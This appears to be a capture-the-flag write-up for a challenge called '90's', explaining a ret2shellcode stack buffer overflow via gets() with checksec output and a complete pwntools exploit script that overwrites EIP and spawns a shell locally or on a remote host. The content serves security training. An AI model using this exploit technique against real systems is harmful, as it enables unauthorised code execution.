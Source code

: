 # 90's

# Classic Buffer overflow - Ret2Shellcode
We are given a binary which has no protections enabled and a very straight forward vulnerability. When we look at the decompiled binary we can see a call to a very unsafe function `gets()` Then our input gets copied to another `500 byte` buffer. We can leverage the vulnerability in the `gets()` function which allows us to write past the buffer limit to then call our shellcode.

```sh
└─$ checksec chal           
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```


```python

#!/usr/bin/python3


import argparse
import yaml
from pwn import *
from pathlib import Path


def solve(sh):
    stack_addr = sh.recvline().strip().split()[-1]
    log.success(f"Buffer addr: {stack_addr.decode()}")
    padding = b"\x90"*500
    EIP = p32(int(stack_addr, 16) + 4 + len(padding))
    shellcode = asm(shellcraft.linux.sh())
    payload = padding + EIP + shellcode
    sh.sendline(payload)
    log.success("Payload sent!")
    sh.interactive()

def test(domain, port):
    sh = remote(domain, port)
    solve(sh)



if __name__ == "__main__":
    logging.basicConfig(level=logging.DEBUG)
    parser = argparse.ArgumentParser()

    parser.add_argument("domain", default="0.0.0.0", nargs="?")
    parser.add_argument("port", default=1337, type=int, nargs="?")
    args_argparse = parser.parse_args()
    if args.REMOTE:
        test(args_argparse.domain, args_argparse.port)
    else:
        sh = process("./90-s")
        solve(sh)
```

